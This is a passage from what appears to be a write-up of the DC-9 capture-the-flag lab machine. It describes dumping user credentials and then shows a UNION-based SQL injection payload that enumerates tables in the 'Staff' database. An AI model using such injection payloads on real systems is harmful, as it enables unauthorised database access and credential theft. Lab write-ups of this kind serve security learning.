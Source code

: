 I save the credentials in a file called creds.

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%205.png)

We obtain a list of users and passwords but they are not valid in the web login so we go on to list the Staff database in the same way that we have done with users.

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='Staff'-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%206.png)
